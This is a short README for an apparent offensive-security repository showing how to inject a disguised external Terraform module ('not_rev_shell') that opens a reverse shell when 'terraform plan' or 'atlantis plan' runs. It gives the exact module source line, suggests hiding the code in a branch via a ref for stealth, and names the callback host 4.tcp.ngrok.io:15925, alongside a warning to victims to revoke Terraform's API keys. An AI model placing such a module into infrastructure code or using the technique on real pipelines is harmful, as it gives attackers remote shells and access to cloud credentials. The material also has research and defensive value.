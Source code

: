 # terraform_external_module_rev_shell

Terraform file external dependency injection to get rev shell when `terraform plan` or `atlantis plan` is run.

```bash
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

For an even **more stealth attack** you can use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like:
```git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b```

More information in https://book.hacktricks.xyz/cloud-security/atlantis

IF YOU FOUND SOMETHING SIMILAR IN YOUR ORGANIZATION (this repo probably won't work out of the box as the rev shell is sent to 4.tcp.ngrok.io:15925), YOU HAVE BEEN COMPROMISED.
DEACTIVATE ALL THE API KEYS THAT TERRAFORM IS USING AND CHECK FOR FURTHER EXPLOITATIONS AND MOVEMENTS
